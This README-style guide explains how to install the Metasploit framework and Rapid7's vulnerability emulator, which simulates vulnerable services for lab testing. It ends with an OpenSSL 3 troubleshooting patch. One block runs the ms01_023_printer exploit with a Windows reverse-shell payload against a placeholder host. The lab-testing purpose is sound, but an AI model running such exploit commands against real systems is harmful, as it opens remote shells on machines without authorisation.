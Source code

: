 # Metasploit vulnerability emulator
#Metasploit

## Install Metasploit framework
1. Install dependencies
```shell
sudo apt install build-essential ruby-dev libpq-dev libsqlite3-dev libpcap-dev
```

2. Download Metasploit framework v6.1.39
```shell
wget -c https://github.com/rapid7/metasploit-framework/archive/refs/tags/6.1.39.zip -O metasploit-framework-6.1.39.zip && \
unzip -q metasploit-framework-6.1.39.zip && \
cd metasploit-framework-6.1.39/
```

3. Install Metasploit framework
```shell
bundle install
```


## Metasploit vulnerability emulator
### Run with local host
1. Download [metasploit-vulnerability-emulator](https://github.com/rapid7/metasploit-vulnerability-emulator)
```shell
git clone https://github.com/rapid7/metasploit-vulnerability-emulator.git
```

2. Install dependencies
If `cpanm` is not available:
```shell
sudo apt install cpanminus
```

```shell
sudo cpanm install IO::Socket::SSL Try::Tiny IO::Compress::Gzip Compress::Zlib Storable JSON
```

3. Start Metasploit Vulnerable Services Emulator
```shell
sudo perl vulEmu.pl
```

### Run with Docker
```shell
docker run --rm -it -p 80:80 5062/metasploit-vulnerability-emulator
```

## Activate vulnerable service
For example `windows/iis/ms01_023_printer`
```
>>activate exploits/windows/iis/ms01_023_printer
```

## Run exploit
Start Metasploit console
```shell
msfconsole
```

```msfconsole
msf6 > use exploit/windows/iis/ms01_023_printer
msf6 > set payload windows/shell_reverse_tcp
msf6 > set RHOSTS <vulnerable-service-ip>
msf6 > set LHOST <local-ip>
msf6 > run
```


## Errors
### `msfconsole` crashes with openssl3
The incompatible changes in OpenSSL 3 causes `msfconsole` to crash on startup: 
```
/var/lib/gems/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/encryption_algorithm/functionable.rb:13:in `initialize': unsupported (OpenSSL::Cipher::CipherError)
...
from ./msfconsole:23:in `<main>'
```
See [Issue #16767](https://github.com/rapid7/metasploit-framework/issues/16767)  
Fixed in [PR #16771](https://github.com/rapid7/metasploit-framework/pull/16771) and [PR #16792](https://github.com/rapid7/metasploit-framework/pull/16792)

Solution: apply the following patch
```diff
diff --git a/lib/msf/core/handler/reverse_ssh.rb b/lib/msf/core/handler/reverse_ssh.rb
index 9917ad4460..cf2b1bc472 100644
--- a/lib/msf/core/handler/reverse_ssh.rb
+++ b/lib/msf/core/handler/reverse_ssh.rb
@@ -145,8 +145,12 @@ module Msf
       def default_version_string
         require 'rex/proto/ssh/connection'
         Rex::Proto::Ssh::Connection.default_options['local_version']
+      rescue OpenSSL::OpenSSLError => e
+        print_error("ReverseSSH handler did not load with OpenSSL version #{OpenSSL::VERSION}")
+        elog(e)
+        'SSH-2.0-OpenSSH_5.3p1'
       rescue LoadError => e
        print_error("This handler requires PTY access not available on all platforms.")
         elog(e)
         'SSH-2.0-OpenSSH_5.3p1'
       end
```
